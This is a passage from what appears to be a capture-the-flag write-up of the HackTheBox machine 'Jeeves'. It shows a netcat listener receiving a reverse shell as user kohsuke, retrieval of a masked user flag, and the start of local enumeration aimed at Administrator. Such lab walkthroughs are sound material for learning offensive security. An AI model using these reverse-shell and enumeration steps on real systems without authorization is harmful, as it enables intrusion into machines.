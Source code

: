     oxdf@hacky$ sudo rlwrap -cAr nc -lvnp 445
    Listening on 0.0.0.0 445
    Connection received on 10.10.10.63 49676
    whoami
    jeeves\kohsuke
    PS C:\Users\Administrator\.jenkins\workspace\0xdf>



It doesn't show the prompt until after the first command, but once I see
"Connection received on \[Jeeves IP\]", I know it's there.

Despite running as kohsuke, I'm in a directory in the Administrator's
home directory. Still, I can't access anything else in here. I'll visit
kohsuke's desktop, and grab `user.txt`:



    PS C:\Users\kohsuke\desktop> cat user.txt
    e3232272************************



## Shell as Administrator

### Enumeration

There are no other users on the box besides administrator, so that's the
clear next target:



    PS C:\Users> dir


        Directory: C:\Users


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        11/3/2017  11:07 PM                Administrator
    d-----        11/5/2017   9:17 PM                DefaultAppPool
    d-----        11/3/2017  11:19 PM                kohsuke
    d-r---       10/25/2017   4:46 PM                Public 

    PS C:\Users> net user

    User accounts for \\JEEVES

    -------------------------------------------------------------------------------
    Administrator            DefaultAccount           Guest                    
    kohsuke                  
    The command completed successfully.



Looking around kohsuke's home directory, there's a single file in the
`Documents` folder:



    PS C:\Users\kohsuke\Documents> ls
